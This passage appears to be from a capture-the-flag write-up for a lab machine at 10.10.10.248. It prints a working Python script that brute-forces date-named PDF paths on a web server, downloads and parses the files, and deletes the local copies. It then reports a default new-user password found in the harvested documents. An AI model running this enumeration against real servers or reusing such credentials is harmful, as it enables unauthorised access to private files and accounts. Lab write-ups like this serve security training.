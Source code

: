 The script source is below

```python
import requests
import os
from PyPDF3 import PdfFileReader

class BruteForceDirs():
    def __init__(self,ip,port):
        self.ip = ip
        self.port = port
        self.host = f"http://{self.ip}:{self.port}/documents/"
        self.good_urls = []

    def spam(self,year):
        months = ["01","02","03","04","05","06","07","08","09","10","11","12"]
        days = ["01","02","03","04","05","06","07","08","09","10","11","12","13","14","15","16","17","18","19","20","21","22","23","24","25","26","27","28","29","30","31"]
        target_url = self.host + year + "-" + "$$" + "-" + "!!" + "-upload.pdf"
        for month in months:
            month_url = target_url.replace("$$",month)
            for day in days:
                final_url = month_url.replace("!!",day)
                response = requests.head(final_url)
                if response.status_code != 404:
                    self.good_urls.append(final_url)
                    print(final_url)
                    return

    def parse_pdf(self):
        print("Attempting to download and parse!")
        for url in self.good_urls:
            file_name = url.split("/documents/")[1]
            with requests.get(url,stream=True) as s:
                with open(file_name,"wb") as f:
                    for chunk in s.iter_content(chunk_size=512 * 1024):
                        f.write(chunk)
            print(f"PARSING PDF -> {file_name}")
            with open(file_name,"rb") as f:
                reader = PdfFileReader(f)
                contents = reader.getPage(0).extractText().split("\n")
                [print(x) for x in contents]
            try:
                os.remove(file_name)
                print(f"DONE! Deleting File! -> {file_name}")
            except Exception as e:
                print(e)
                print(f"Failed to delete file -> {file_name}")
    def print(self):
        for url in self.good_urls:
            print(url)

if __name__ == "__main__":
    bfd = BruteForceDirs("10.10.10.248","80")
    years = ["2020","2021"]
    for year in years:
        bfd.spam(year)
    bfd.print()
    bfd.parse_pdf()
```
After piping the output using `tee` and skimming over it, i found two interesting documents. One contains the default password given to new users joining the company -> NewIntelligenceCorpUser9876 <- . And one seems to be an internal document stating that a script is running to check if web servers go down and that service accounts are being locked down. (Probably due to a recent breach)
